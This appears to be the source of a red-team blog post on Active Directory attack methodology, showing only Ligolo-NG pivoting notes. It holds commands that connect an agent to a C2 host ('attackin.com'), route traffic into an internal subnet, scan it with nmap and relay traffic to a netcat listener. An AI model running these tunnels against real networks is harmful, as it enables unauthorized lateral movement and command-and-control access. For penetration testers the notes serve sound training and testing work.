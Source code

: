 ```yaml
---
layout: '../../layouts/Post.astro'
title: 'Active Directory - Attack Methodology'
image: '/images/pivot1'
# image: 'https://22863376c5.clvaw-cdnwnd.com/2c46b638ae8400165ec727f2390cd862/200000109-4dacc4dacf/0_0k6y3ytGb8Fjtrnr.webp?ph=22863376c5'
publishedAt: "2023-10-3"
category: 'Hybrid'
---
```


## Overview


### Tools

#### Ligolo-NG
Requires Go 1.20

##### Linux Setup
##### Set-Up Tun Interface for Proxy
```bash
user=mellonaut
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && tar -xzvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz && rm ligolo-ng_agent_0.4.4_linux_amd64.tar.gz
sudo ip tuntap add user $user mode tun ligolo
sudo ip link set ligolo up
```

##### Linux Start Proxy
```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

##### TLS - No LetsEncrypt
```bash
cert=\home\mellonaut\cert.pem
key=\home\mellonaut\cert.pem

./proxy -certfile $cert -keyfile $key
./proxy -selfcert # must use -ignore-cert on the agent side
```

##### Windows Setup
##### Requires Win-Tun .dll from Wireguard project
```powershell
Invoke-WebRequest -Uri https://www.wintun.net/builds/wintun-0.14.1.zip -OutFile wintun-0.14.1.zip; Expand-Archive -Path wintun-0.14.1.zip -DestinationPath .\; Remove-Item wintun-0.14.1.zip
Invoke-WebRequest -Uri https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip -OutFile ligolo.zip; Expand-Archive -Path ligolo.zip -DestinationPath .\; Remove-Item ligolo.zip
Copy-Item -Path .\wintun\bin\amd64\*.dll -Destination .\ligolo\
```

##### Agent Usage
```bash
c2=https://attackin.com
./agent -connect $c2:11601
```

##### Agent SOCKS5 
```bash
c2=https://attackin.com
./agent -connect --socks $c2:11601
# --socks-user --socks-pass
```

##### Interacting -  Linux - Add Route to Ligolo
```bash
ligolo-ng >> session
1
ifconfig # Agents IPv4 address/ Subnet shown 192.168.0.30/24
sudo ip route add 192.168.0.0/24 dev ligolo # tun device is ligolo
```

##### Interacting -  Windows - Add Route to Ligolo
```powershell
netsh int ipv4 show interfaces
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

##### Access Network
From proxy server 
```bash
start # starts the tunnel
nmap 192.168.0.0/24 -v -sV -n --unprivileged # or -PE, use the tunnel, reduce false-positives if we're not admin
```

##### Add Listener to Agent, redirect all traffic from agent 1234 to C2 server 4321
Start a listener on the agent to redirect to the C2 server
```bash
# From Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```

Start a netcat listener to recieve the traffic
```bash
# From Proxy
nc -lvp 4321
```

     

